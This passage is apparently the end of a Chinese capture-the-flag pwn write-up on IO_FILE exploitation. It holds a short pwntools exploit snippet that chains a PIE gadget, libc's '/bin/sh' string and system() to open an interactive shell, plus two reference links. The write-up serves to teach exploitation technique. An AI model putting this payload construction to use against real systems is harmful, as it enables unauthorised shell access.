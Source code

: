 ```
payload = p64(pie+0xd93)+p64(next(libc.search('/bin/sh')))+p64(libc.symbols['system'])
p.sendline(payload)
p.sendline('')
p.interactive()

```

参考资料：

[https://ray-cp.github.io/archivers/IO_FILE_arbitrary_read_write](https://ray-cp.github.io/archivers/IO_FILE_arbitrary_read_write)

[https://wiki.x10sec.org/pwn/io_file/introduction/](https://wiki.x10sec.org/pwn/io_file/introduction/)
